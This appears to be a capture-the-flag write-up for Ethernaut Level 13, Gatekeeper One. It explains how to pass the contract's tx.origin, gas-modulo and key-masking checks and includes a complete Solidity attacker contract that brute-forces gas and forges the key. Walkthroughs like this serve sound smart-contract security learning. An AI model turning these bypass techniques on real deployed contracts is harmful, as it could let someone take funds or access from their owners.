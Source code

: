 # Ethernaut Level 13: Gatekeeper One Solution

## **Gate Requirements**

### **Gate 1**
```solidity
require(msg.sender != tx.origin);
```
- **Explanation**: The `msg.sender` must not be the same as `tx.origin`. This means you need to call the `enter` function from a smart contract, not directly from an externally owned account (EOA).

- **Solution**: Deploy an attacker contract that interacts with the target contract.

---

### **Gate 2**
```solidity
require(gasleft() % 8191 == 0);
```
- **Explanation**: The remaining gas at the time of executing this check must be a multiple of 8191.

- **Solution**:
  1. I bruteforced the function gas until it fit.


### **Gate 3**
```solidity
require(
    uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)) &&
    uint32(uint64(_gateKey)) != uint64(_gateKey) &&
    uint32(uint64(_gateKey)) == uint16(uint160(msg.sender))
);
```

- **Explanation**:
  1. `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))`:
     - The lower 16 bits of `_gateKey` must equal the lower 32 bits of `_gateKey`.
     - 0x B5 B6 B7 B8 == 0x 00 00 B7 B8 This is the first condition

  2. `uint32(uint64(_gateKey)) != uint64(_gateKey)`:
     - The `_gateKey` must not fit within 32 bits, ensuring a higher portion of the key exists.
     - 0x 00 00 00 00 B5 B6 B7 B8 != 0x B1 B2 B3 B4 B5 B6 B7 B8 This is the second condition

  3. `uint32(uint64(_gateKey)) == uint16(uint160(msg.sender))`:
     - The lower 16 bits of `msg.sender` must match the lower 16 bits of `_gateKey`.
     - 0x B5 B6 B7 B8 == 0x 00 00 (last two bytes of tx.origin) This is the third condition

- **Solution**:
    - 0x ANY_DATA ANY_DATA ANY_DATA ANY_DATA 00 00 SECOND_LAST_BYTE_OF_ADDRESS LAST_BYTE_OF_ADDRESS


## **Attacker Contract**
Here’s the full implementation of the attacking contract:

```solidity
contract Attacker {
    GatekeeperOne gatekeeper;
    bytes8 public key1 = bytes8(uint64(uint160(address(msg.sender)))) & 0xFFFFFFFF0000FFFF;

    constructor(address _gate){
        gatekeeper = GatekeeperOne(_gate);
    }

    function exploit() external{
        bytes8 key = bytes8(uint64(uint160(address(msg.sender)))) & 0xFFFFFFFF0000FFFF;
        for (uint256 i = 0; i < 300; i++) {
            (bool success, ) = address(gatekeeper).call{gas: i + (8191 * 3)}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) {
                break;
            }
        }
    }
}
```


## **Summary**
- Use a contract to bypass Gate 1.
- Bruteforce the gas to satisfy Gate 2.
- Forge a key that satisfies all constraints of Gate 3.

